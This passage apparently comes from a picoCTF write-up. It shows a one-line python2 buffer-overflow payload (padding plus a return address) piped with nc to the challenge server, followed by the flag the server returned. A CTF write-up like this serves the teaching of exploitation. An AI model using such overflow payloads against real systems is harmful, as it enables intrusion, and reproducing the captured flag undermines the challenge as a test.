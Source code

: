 ![](Images/ghidra-flag-function.png)

```
>> python2 -c "print 'A'*72+'\x3b\x12\x40\x00\x00\x00\x00\x00'" | nc saturn.picoctf.net 53058  
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{b1663r_15_b3773r_be31178c}  
```

## buffer overflow 2

![](Images/Q-buffer-overflow-2.png)
